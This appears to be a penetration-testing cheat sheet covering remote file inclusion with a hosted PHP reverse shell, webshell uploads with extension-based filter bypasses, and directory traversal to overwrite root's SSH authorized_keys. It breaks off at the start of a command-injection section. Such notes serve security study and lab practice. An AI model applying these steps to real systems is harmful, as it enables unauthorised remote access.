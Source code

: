 ## **Remote File Inclusion (RFI)**

1. Host **`php-reverse-shell.php`** using a Python server.
    
    ```bash
    python -m http.server
    ```
    
2. Enter the URL in a parameter after listening to netcat.
3. Achieve shell access.

## File Upload

## **Using Executable Files**

1. Access webshells in the directory:
    - **`/usr/share/webshells/`** (Contains various webshells)
2. Reference [HackTricks - File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload) for additional information.
3. **Filter Bypass:**
    - Use different file extensions to bypass filters (e.g., **`.pHP`**, **`.phps`**, **`.phtml`**, **`.php7`**).
    - Note: Check with Curl.

## **Using Non-Executable Files**

### **Leveraging Directory Traversal**

1. **Overwriting Files (Weak Permissions):**
    - Generate SSH keys: **`ssh-keygen`**
    - Overwrite **`authorized_keys`** with a public key:
        
        ```bash
        cat file.pub > authorized_keys
        chmod a+rwx authorized_keys
        chmod 700 id_rsa
        ```
        
    - Try to overwrite **`/../../../../../../../root/.ssh/authorized_keys`** (ensure the uploaded file name in the request follows this pattern).
    - Connect via SSH: **`ssh -i id_rsa user@ip`**
2. **Upload File using CURL:**
    
    ```bash
    curl --user 'user:pass' -T file.exe url
    ```
    

## **Command Injection**

If a single command is working, try URL encoding a semi-colon. For example, if **`git`** command works but others are restricted:
